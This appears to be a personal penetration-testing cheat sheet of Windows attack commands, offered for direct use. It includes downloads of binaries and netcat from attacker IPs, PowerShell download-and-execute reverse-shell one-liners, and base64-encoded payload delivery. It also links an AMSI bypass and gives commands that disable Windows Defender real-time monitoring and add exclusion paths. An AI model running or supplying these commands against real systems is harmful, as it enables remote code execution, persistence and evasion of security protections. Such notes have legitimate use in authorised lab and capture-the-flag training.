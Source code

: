 https://lolbas-project.github.io/#


## Download File

```powershell
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
```

```powershell
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
```

Conenct to smb share
```cmd
net use z: \\$ip\share_name /user:domain\username password
```
```powershell
New-SmbSession -LocalPath 'X:' -RemotePath \\%ip\share_name -Username <username> -Password <password>
```


## Reverse Shell

### Download and execute #reverseshell 
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>:<port>/ipw.ps1')"

echo IEX(New-Object Net.WebClient).DownloadString('http://<IP>:<port>/PowerUp.ps1') | powershell -noprofile - #From cmd download and execute

iex (iwr '<IP>:<port>/ipw.ps1') #From PSv3
```

### base64 copy paste from Linux #reverseshell 

```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0 # Run on linux machine

powershell -nop -enc <BASE64_ENCODED_PAYLOAD> # Run on victim windows
```


## Windows Features #windows

#### PS Constrained Language Mode

Check
```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

#### AMSI Bypass

https://amsi.fail/

#### Enable WinRM

```powershell
enable-psremoting -force #This enables winrm

# Change NetWorkConnection Category to Private
#Requires -RunasAdministrator

Get-NetConnectionProfile |
  Where{ $_.NetWorkCategory -ne 'Private'} |
  ForEach {
    $_
    $_|Set-NetConnectionProfile -NetWorkCategory Private -Confirm
  }
```

#### Disable Defender

```powershell
# Check status
Get-MpComputerStatus
Get-MpPreference | select Exclusion* | fl #Check exclusions
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
#To completely disable Windows Defender on a computer, use the command:
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
# Set exclusion path
Add-MpPreference -ExclusionPath "C:\users\public\documents\magichk"
Set-MpPreference -ExclusionPath "C:\users\public\documents\magichk"

# Check exclusions configured via GPO
Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```



WinPeas needs .Net 4.0 to run properly

